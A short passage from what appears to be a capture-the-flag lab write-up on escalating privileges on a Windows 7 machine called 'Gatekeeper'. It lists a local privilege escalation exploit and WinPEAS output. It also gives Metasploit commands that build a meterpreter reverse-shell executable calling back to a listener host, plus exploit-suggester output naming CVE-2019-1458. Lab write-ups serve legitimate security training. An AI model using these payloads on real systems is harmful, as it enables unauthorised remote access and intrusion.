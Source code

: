 ![0xskar](/assets/gatekeeper11.png)

## # Exploits

- Microsoft Windows 7 build 7601 (x86) - Local Privilege Escalation | windows_x86/local/47176.cpp


##   Answer the questions below

**Locate and find the User Flag.**

![0xskar](/assets/gatekeeper12.png)

**Locate and find the Root Flag**

- We can find the SMB share is located at C:\Users\Share. Upload meterpreter shell? But lets try winpeas first. All I could get to work is Winpeas.bat

## # WinPEAS Results

Host Name:                 GATEKEEPER
OS Name:                   Microsoft Windows 7 Professional
OS Version:                6.1.7601 Service Pack 1 Build 7601
System Type:               x64-based PC                                                                                                          
## # Meterpreter Shell

- ``msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp``
- ``msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.x.x.x LPORT=8888 -f exe -o reverse.exe``
- ``msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester``
- ``[+] 10.10.136.143 - exploit/windows/local/cve_2019_1458_wizardopium: The target appears to be vulnerable.``

![0xskar](/assets/gatekeeper13.png)

* * *



